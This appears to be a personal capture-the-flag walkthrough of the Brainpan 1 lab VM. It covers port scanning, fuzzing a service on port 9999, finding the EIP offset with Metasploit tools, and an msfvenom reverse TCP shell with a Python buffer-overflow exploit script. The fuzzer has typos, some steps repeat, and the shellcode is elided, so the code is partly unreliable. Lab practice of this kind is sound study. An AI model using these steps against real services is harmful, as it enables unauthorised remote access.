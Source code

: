 # Brainpan 1 Walkthrough
Following is the outcome of my hacking handiwork

## 1. Initial Scan

`nmap -sV -sT -v -p- -T4 192.168.56.1/24`

```
Scanning 192.168.56.106 [65535 ports]
Discovered open port 9999/tcp on 192.168.56.106
Completed Connect Scan at 14:46, 2.04s elapsed (65535 total ports)
Initiating Service scan at 14:46
Scanning 1 service on 192.168.57.1
Completed Service scan at 14:46, 6.13s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 192.168.57.1
NSE: Script scanning 192.168.57.1.
Initiating NSE at 14:46
Completed NSE at 14:46, 0.01s elapsed
Initiating NSE at 14:46
Completed NSE at 14:46, 0.01s elapsed
Nmap scan report for 192.168.57.1
Host is up (0.000064s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
9999/tcp open  abyss?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.80%I=7%D=3/4%Time=5E5FB12A%P=x86_64-pc-linux-gnu%r(NUL
SF:L,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|\
SF:x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x
SF:20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x2
SF:0\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|\
SF:x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x2
SF:0\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_\
SF:|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x2
SF:0_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x2
SF:0_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x2
SF:0THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Uptime guess: 8.367 days (since Tue Feb 25 05:58:00 2020)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
```
![](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/nmap-scan)

`nikto -h 192.168.56.106`
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/nikto.png)

`192.168.56.106:10000/bin/`

Let's run the `strings` command to view the hardcoded strings within the binary

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/strings.png)

Time for launching Windows 32-bit VM and some scripting work

## 2. Fuzzing

Time to make sure everything's ready and send brainpan.exe to the guest OS (setting up SimpleHTTPServer on the host may come in handy)

In the next step we're gonna send a long, repeated string of A's with this simple fuzzer:

```
import socket

for i in range(30):
  s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
  s.connect(("192.168.56.105",9999)
  payloaod = int(i)*("A"*100)
  s.send(payload+"\r\n")
  print "[*] Sending buffer data with " + str(len(str(payload))) + " A's\r\n"
  s.close()
```
Here, the Windows machine IP address given by DHCP is '192.168.56.105' (mind to change it). We use the script visible above and see what it spits out.
Turns out that the overflow occurs around the length 900 A's.


**In the first round** we are going to see whether it's vulnerable to buffer overflow. We can write a simple fuzzer in python 

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/sending-buffer-of-A's.png)

Stack addresses EAX EIP ESP

`ruby /usr/share/metasploit-framwerok/tools/exploit/pattern_create.rb -l 900`

Generated pattern:



![sending A's](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/pattern_create.png?raw=true)

Metasploit generator is a handy tool, though it is abysmally slow

Stack addresses EAX EIP ESP

`ruby /usr/share/metasploit-framwerok/tools/exploit/pattern_create.rb -l 900`

!(pattern_create)[]

And we insert the output from above into the fuzzing script

`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...`

After executing it (.py script) we see the following output containing `Access violation`:

The EIP was overwritten with .....

`ruby pattern_offset.rb 35724134`

Setting JMP ESP address and shellcode


!(pattern_create)[]


And we insert the output from above into the fuzzing script

`aaa`

After executing it (.py script) we see the following output containing `Access violation`:

The EIP was overwritten with .....

`ruby pattern_offset.rb -q 35724134`
|
|
`[*] Exact match at offset 524`

Exactly 524 bytes of 'crash' is needed in order to get us to EIP. Time to edit our fuzzer and see if we can overwrite eip with some B's (/x42). 

Setting JMP ESP address and shellcode

`!mona jump -r ESP`

`0x31170000` <- no ASLR

`msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.101 lport 443 -f c -o shellcode.txt -b "\x00"`


```
import socket, sys

buf = ("\xb8\xf9\...\...\...\..."
"\xc9\xb1\...\..\...\...\...\..."
"...
"...
...
"\x92\x7c\xa6\xf6")

payload = "A"*524 + "\xf3\x12\x17\x31" + "\x90"*16 + buf
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
  s.connect(('192.168.56.106',9999))
except:
  print "Error"
  sys.exit(0)

s.recv(1024)
s.send(payload)
```




![](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/generating-shellcode.png?raw=true)

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/root%40brainpan.png)

## Conclusion and benefits
It was an opportunity to improve
- scripting skills
- 

